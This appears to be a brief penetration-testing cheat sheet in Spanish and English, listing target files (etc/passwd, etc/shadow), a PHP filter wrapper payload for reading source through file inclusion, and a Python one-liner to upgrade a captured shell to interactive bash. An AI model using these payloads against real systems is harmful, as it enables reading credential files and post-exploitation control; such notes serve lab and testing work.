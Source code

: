 # Tips generales

### Directorios Principales

`etc/passwd`
`etc/shadow`

## PHP

### Encodear
`php://filter/convert.base64-encode/resource=FILENAME`

## Python

### Upgrade the shell  
`python -c 'import pty; pty.spawn("/bin/bash")'`

